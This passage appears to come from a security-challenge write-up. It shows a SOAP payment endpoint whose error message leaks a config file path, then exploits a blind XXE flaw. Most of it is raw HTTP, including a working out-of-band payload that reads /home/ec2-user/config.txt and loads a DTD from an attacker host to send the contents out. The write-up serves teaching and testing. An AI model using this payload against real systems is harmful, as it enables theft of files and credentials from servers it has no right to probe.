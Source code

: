 #### Exploiting XXE to retrieve the config file

When making a request to “processPayment”, an error message is returned which references a config file. The current path of the application is also returned.

```
HTTP/1.1 200 OK
Content-type: text/xml; charset=utf-8
Date: Tue, 05 Feb 2019 09:48:50 GMT
Content-Length: 536
<?xml version="1.0" ?><S:Envelope xmlns:S="http://schemas.xmlsoap.org/soap/envelope/"><S:Body><ns2:processPaymentResponse xmlns:ns2="http://cybersecchallenge/"><return>/home/ec2-user/PaymentProcessor.java: Error parsing &lt;?xml version=&quot;1.0&quot; encoding=&quot;UTF-8&quot;?&gt;&lt;! DOCTYPE files PUBLIC &quot;-//B/A/EN&quot; &quot;http://kali- sean.gremwell.com:8080/confirm&quot;&gt;
Ensure configuration file config.txt is properly deployed on the application server. </return></ns2:processPaymentResponse></S:Body></S:Envelope>
```

This allows the attacker to determine the full path of the config file. The attacker can then exploit the XXE issue to read out the contents of the file. Since it is a blind XXE issue, an out of band attack needs to be used. The following is an example.


```
POST /paymentProcessor HTTP/1.1
Accept-Encoding: gzip, deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: "authenticate"
Content-Length: 520
Host: localhost:1212
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
xmlns:cyb="http://cybersecchallenge/">
  <soapenv:Header/>
  <soapenv:Body>
     <cyb:processPayment>
        <arg0>&lt;!DOCTYPE aa[&lt;!ELEMENT bb ANY&gt;
&lt;!ENTITY % file SYSTEM &quot;file:///home/ec2-user/config.txt&quot;&gt;
&lt;!ENTITY % dtd SYSTEM &quot;http://kali-sean.gremwell.com:8080/sdr.dtd&quot;&gt;
%dtd;]&gt;&lt;bb&gt;&amp;send;&lt;/bb&gt;</arg0>
     </cyb:processPayment>
  </soapenv:Body>
</soapenv:Envelope>


HTTP/1.1 200 OK
Content-type: text/xml; charset=utf-8
Date: Tue, 05 Feb 2019 09:57:17 GMT
Content-Length: 606
<?xml version="1.0" ?><S:Envelope
xmlns:S="http://schemas.xmlsoap.org/soap/envelope/"><S:Body><ns2:processPaymentResponse
xmlns:ns2="http://cybersecchallenge/"><return>/home/ec2-user/PaymentProcessor.java:
Error parsing &lt;!DOCTYPE aa[&lt;!ELEMENT bb ANY&gt;
&lt;!ENTITY % file SYSTEM &quot;file:///home/ec2-user/config.txt&quot;&gt;
&lt;!ENTITY % dtd SYSTEM &quot;http://kali-sean.gremwell.com:8080/sdr.dtd&quot;&gt;
%dtd;]&gt;&lt;bb&gt;&amp;send;&lt;/bb&gt;
Ensure configuration file config.txt is properly deployed on the application
server.</return></ns2:processPaymentResponse></S:Body></S:Envelope>
```
